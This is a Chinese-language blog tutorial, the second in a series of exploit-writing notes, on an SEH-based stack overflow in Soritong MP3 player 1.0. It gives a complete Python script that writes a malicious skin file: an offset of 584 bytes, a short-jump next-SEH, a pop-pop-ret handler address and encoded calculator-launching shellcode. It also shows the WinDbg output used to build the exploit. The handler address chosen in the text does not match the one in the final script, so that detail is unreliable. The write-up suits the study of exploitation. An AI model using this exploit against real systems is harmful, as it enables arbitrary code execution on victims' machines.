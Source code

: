 ```yaml
---
layout: post
title: "exploit编写笔记2——基于SEH的exploit"
description: "exploit"
category: 技术
tags: [exploit]
---
```

{% include JB/setup %}

这是exploit编写的第二篇笔记，基于SEH的exploit。SEH的原理在之前的文章中已经做了详细说明，这里不再赘述。这次的例子是Soritong MP3 player 1.0上的漏洞，程序下载：[soritong10.exe](/assets/file/seh-exploit/soritong10.exe)。

这个漏洞指出一个畸形皮肤文件将导致溢出，我们用python创建一个ui.txt文件并放到skin\default文件夹下面：

	file = "ui.txt"
	junk = "A" * 5000
	f = open(file,'w')
	f.write(junk)
	f.close()

打开soritong mp3，可以看到无声崩溃掉，使用windbg查看seh的prev和handler都被我们的'A'覆盖了。

![](/assets/img/sehexploit/1.png)



当异常发生时，程序会跳转到SEH handler去执行，通过将这个handler的值设置为程序自带模块的一个pop/pop/ret地址，能够实现程序跳转到next seh pointer去，在next seh中需要做的就是跳转到shellcode执行。corelan的教程说的是造成一个二次异常，我觉得不是，就是简单的ret将next seh的值弹到了eip而已。shellcode的布局大致如下：

[junk][next seh][seh][shellcode]

next seh是一个跳转到shellcode的指令，seh是一个程序自带模块的p/p/r地址。

通过mona的pattern可以找到需要seh需要覆盖的偏移为588。一个short jmp机器码是eb，跟上跳转距离，跳过6字节的short jmp机器码为eb 06。所以使用0xeb,0x06,0x90,0x90覆盖 next seh。

查找pop pop ret指令

![](/assets/img/sehexploit/2.png)

![](/assets/img/sehexploit/3.png)

也就是说se handler在588个字节后被覆盖，next seh就在584个字节后被覆盖，

接着，我们找p/p/r地址

	0:000> lm
	start    end        module name
	00400000 004de000   SoriTong C (export symbols)       C:\Program Files\SoriTong\SoriTong.exe
	010d0000 0111f000   DRMClien   (deferred)             
	10000000 10094000   Player     (deferred)             
	42100000 42129000   wmaudsdk   (deferred)             
	5adc0000 5adf7000   uxtheme    (deferred)             
	5bd10000 5bd50000   strmdll    (deferred)             
	5d170000 5d20a000   COMCTL32   (deferred)             
	62c20000 62c29000   LPK        (deferred)


	0:000> s 10000000 10094000 5f 5e c3
	1000e0d2  5f 5e c3 8b 47 78 85 c0-75 05 33 c0 5f 5e c3 8b  _^..Gx..u.3._^..
	1000e0de  5f 5e c3 8b 07 8b cf ff-10 8b f0 85 f6 7c 07 8b  _^...........|..
	1000e0f6  5f 5e c3 cc cc cc cc cc-cc cc 53 56 57 8b f1 55  _^........SVW..U
	100106fb  5f 5e c3 cc cc 8b 44 24-08 8b 54 24 04 50 8b 49  _^....D$..T$.P.I
	10010cab  5f 5e c3 cc cc 41 e8 6a-fe ff ff a8 01 74 05 d1  _^...A.j.....t..
	100116fd  5f 5e c3 56 8b f1 8d 89-1c 8a 04 00 e8 82 74 ff  _^.V..........t.
	1001263d  5f 5e c3 55 8b ec 57 56-8b 75 0c 8b 7d 08 8b 4d  _^.U..WV.u..}..M
	100127f8  5f 5e c3 cc cc cc cc cc-8b 44 24 04 56 57 8b d0  _^.......D$.VW..
	1001281f  5f 5e c3 cc cc cc cc cc-cc cc cc cc cc cc cc cc  _^..............
	10012984  5f 5e c3 cc cc cc cc cc-cc cc cc cc 8b 44 24 04  _^...........D$.
	...

我们随便选一个如10012984.

这里再解释一下pop pop ret指令的作用，当异常发生的时候，异常分发器创建自己的栈帧，会奖EH handler成员压入新创的栈帧中，在EH结构中有一个域是EstablisherFrame。这个域指向异常注册记录(next seh)的地址并被压入栈中，当一个函数被调用的时候被压入的这个值都是位于ESP+8的地方。使用pop pop ret后，就会将next seh的地址放到EIP中。

最终的shellcode就是

junk:584字节 'A'

next seh:"\xeb\x06\x90\x90"

seh:"\x84\x29\x01\x10"

shellcode：完成功能的，随便找了一个弹计算器的

并且在最后加了一些垃圾数据

	name = "ui.txt"
	data = "A" * 584
	nextseh = "\xeb\x06\x90\x90"
	seh = "\xe8\x8d\x01\x10"
	shellcode = ("\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
	"\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
	"\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
	"\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
	"\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44"
	"\x42\x30\x42\x50\x42\x30\x4b\x38\x45\x54\x4e\x33\x4b\x58\x4e\x37"
	"\x45\x50\x4a\x47\x41\x30\x4f\x4e\x4b\x38\x4f\x44\x4a\x41\x4b\x48"
	"\x4f\x35\x42\x32\x41\x50\x4b\x4e\x49\x34\x4b\x38\x46\x43\x4b\x48"
	"\x41\x30\x50\x4e\x41\x43\x42\x4c\x49\x39\x4e\x4a\x46\x48\x42\x4c"
	"\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x50\x41\x30\x44\x4c\x4b\x4e"
	"\x46\x4f\x4b\x43\x46\x35\x46\x42\x46\x30\x45\x47\x45\x4e\x4b\x48"
	"\x4f\x35\x46\x42\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x30\x4b\x54"
	"\x4b\x58\x4f\x55\x4e\x31\x41\x50\x4b\x4e\x4b\x58\x4e\x31\x4b\x48"
	"\x41\x30\x4b\x4e\x49\x38\x4e\x45\x46\x52\x46\x30\x43\x4c\x41\x43"
	"\x42\x4c\x46\x46\x4b\x48\x42\x54\x42\x53\x45\x38\x42\x4c\x4a\x57"
	"\x4e\x30\x4b\x48\x42\x54\x4e\x30\x4b\x48\x42\x37\x4e\x51\x4d\x4a"
	"\x4b\x58\x4a\x56\x4a\x50\x4b\x4e\x49\x30\x4b\x38\x42\x38\x42\x4b"
	"\x42\x50\x42\x30\x42\x50\x4b\x58\x4a\x46\x4e\x43\x4f\x35\x41\x53"
	"\x48\x4f\x42\x56\x48\x45\x49\x38\x4a\x4f\x43\x48\x42\x4c\x4b\x37"
	"\x42\x35\x4a\x46\x42\x4f\x4c\x48\x46\x50\x4f\x45\x4a\x46\x4a\x49"
	"\x50\x4f\x4c\x58\x50\x30\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x46"
	"\x4e\x36\x43\x46\x42\x50\x5a")
	junk2="\x90" * 1000;
	data = data + nextseh + seh + shellcode + junk2
	f = open(name,'w')
	f.write(data)
	f.close()

将ui.txt文件放在skin/default里面，再点击原程序，发现弹出了计算器。
